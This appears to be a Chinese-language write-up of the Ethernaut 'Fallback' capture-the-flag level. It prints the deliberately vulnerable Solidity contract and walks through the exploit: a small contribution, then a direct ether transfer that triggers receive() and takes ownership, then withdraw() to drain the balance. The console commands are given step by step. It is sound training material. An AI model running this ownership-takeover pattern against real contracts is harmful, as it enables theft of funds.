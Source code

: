 A-Ethernaut-CTF
------------------------

Day2 2024.08.30

FallBack
------------------------
1. 獲得合約所有權
2. 將餘額用成 0

題目：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

解題：

1. 先確定怎麼變成 owner
  在 constructor 一開始部署合約就會變成 `owner`，另外 `contributions[msg.sender]` 會有初始資金

  ```solidity
  constructor() {
      owner = msg.sender;
      contributions[msg.sender] = 1000 * (1 ether);
  }
  ```
  p.s. msg.sender 為送出交易的人

2. 在確定 owner 所有權的控制

  ```solidity
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }
  ```
3.哪裡可以轉錢，有沒有設定 owner，沒有的話直接轉就結束了，目標攻破 `withdraw()`

  恩... 有使用

    ```solidity
      function withdraw() public onlyOwner {
          payable(owner).transfer(address(this).balance);
      }
    ```

4.找一下哪裡會改變 owner ... ` owner =xxxxx`

兩個地方

```solidity
    // 誰最有錢就是 owner （成本太高了... 如果有金錢的力量...)
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    /* 送出的金額 > 0 和 contributions[msg.sender] > 0 就可以變成 owner 而 receive event 是 solidity 的特殊語法，就是當 function 沒有名稱時，就會被當作 fallback function 直接呼叫(看起來問題就在這裡) */

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

5.攻擊想法
- 先讓 contributions[msg.sender] > 0
- 透過 `receive()` 變成 owner
- 取走所有的錢


過程：

1. 按下 Get New Instance 不然會有錯誤
![](./images/2-1.png)
2. Instance 成功
![](./images/2-2.png)

3. 透過 contribute() 送出 0.0001 ether

```solidity
await contract.contribute({value: toWei("0.000001")})
```
![](./images/2-3.png)

4. 確認 owner 是誰，觸發 receive() 變成 owner

```solidity
await contract.owner()
await contract.sendTransaction({value: toWei("0.000001")})
```

![](./images/2-4.png)


5. 確認 owner 是不是自己

```solidity
await contract.owner()
```
![](./images/2-5.png)

6. 取走所有的錢

```solidity
await contract.withdraw()
await getBalance(instance)
```

![](./images/2-6.png)

7. 題目完成
![](./images/2-7.png)



POC:

[Fallback.t.sol](../A-Ethernaut-CTF/POC/test/2/Fallback.t.sol)